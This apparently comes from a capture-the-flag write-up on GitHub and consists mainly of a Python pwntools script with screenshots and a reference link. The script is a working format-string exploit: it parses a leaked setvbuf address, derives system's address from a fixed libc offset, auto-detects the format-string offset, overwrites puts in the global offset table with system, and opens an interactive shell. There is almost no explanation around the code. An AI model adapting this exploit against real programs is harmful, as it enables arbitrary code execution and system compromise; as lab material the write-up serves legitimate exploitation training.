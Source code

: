 ```python3

s.recvline()
leak_line = s.recvline().decode()
setvbuf_addr = int(leak_line.strip().split()[-1], 16)


puts_got = elf.got['puts']
offset_system_setvbuf = 175248
system_addr = setvbuf_addr - offset_system_setvbuf


def probe(payload):
    p = elf.process()
    p.sendline(payload)
    result = p.recvall()
    p.close()
    return result

offset = FmtStr(probe).offset
log.info(f"Format string offset: {offset}")
log.info(f"puts@GOT: {hex(puts_got)}")
log.info(f"system address: {hex(system_addr)}")


payload = fmtstr_payload(offset, {puts_got: system_addr}, write_size='byte')
s.sendline(payload)
s.interactive()
```

<img width="1915" height="974" alt="image" src="https://github.com/user-attachments/assets/5b7c97f4-81dd-4e8c-b21c-1e9a31654285" />

References - https://nuc13us.wordpress.com/2015/12/25/hack-using-global-offset-table/


<img width="800" height="480" alt="image" src="https://github.com/user-attachments/assets/05ebdf9a-d85f-4145-985c-fde9f7515eaa" />

<img width="396" height="335" alt="image" src="https://github.com/user-attachments/assets/d9db0cfb-44ae-41a7-be81-c3c7280ee71a" />

